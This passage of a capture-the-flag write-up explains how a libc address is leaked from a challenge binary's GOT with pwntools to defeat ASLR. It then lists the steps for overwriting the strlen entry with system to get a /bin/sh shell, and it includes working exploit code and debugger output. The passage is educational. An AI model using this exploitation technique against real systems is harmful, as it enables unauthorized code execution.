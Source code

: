 ## Leaking Puts

Because ASLR was enabled for this challenge I needed to leak an address of a libc function before I could call `system` to get a shell. Leaking `puts` seemed like an obvious choice. This would be done with the help of the print meme content function. All I needed to do was set the meme to the address of `puts`, print it, and then capture the first four bytes. Those first four bytes would be the ascii representation of the hex address of puts inside of libc. To calculate the offset to `system` all I had to do was use pwntools to rebase the libc binary and then reference `system` from the libc binary symbols. All of this is accomplished with the following python snippet:
```python
r.sendline("1")
r.sendline(cyclic(0xc) + p32(e.sym['got.puts']) + cyclic(10))
log.info("meme is now the address of puts")
r.recvrepeat(1)

r.sendline("4")
r.recvuntil("c0nT3nT:")
r.recv(1) #tab
leaked_puts = u32(r.recv(4))

libc.address = leaked_puts - libc.symbols["puts"]
r.recv(1024)
log.success("leaked puts: " + hex(leaked_puts) + ", system: " + hex(libc.symbols['system']))
```

The resulting output is promising:
```none
[*] meme is now the address of puts
[+] leaked puts: 0xf75a37e0, system: 0xf757e310
```

Checking this in the debugger confirmed that this was working correctly:
```none
> p system
$1 = {<text variable, no debug info>} 0xf757e310 <system>
```

I was ready to get the flag!


## Flag Captured
Since the meme id was being read in using `fread` and not `fgets` I was able to put the /bin/sh string right at the beginning of the meme id while still being able to set the GOT entry for `strlen` to the leaked `system` address. I chose `strlen` here because it is run on command and has the meme id buffer as its only argument. I followed the following steps to make this work:

1. Set the meme id to [/bin/sh\x00][0xc-8 bytes junk][address of strlen GOT entry][10 bytes extra to satisfy the read]
2. Set the meme dankness back to 5 in order to overwrite the meme content
3. Overwrite the `strlen` GOT entry with the leaked and calculated `system` address
4. Set the meme id to trigger system instead of strlen with /bin/sh in the buffer passed as an argument
5. Get the flag :)
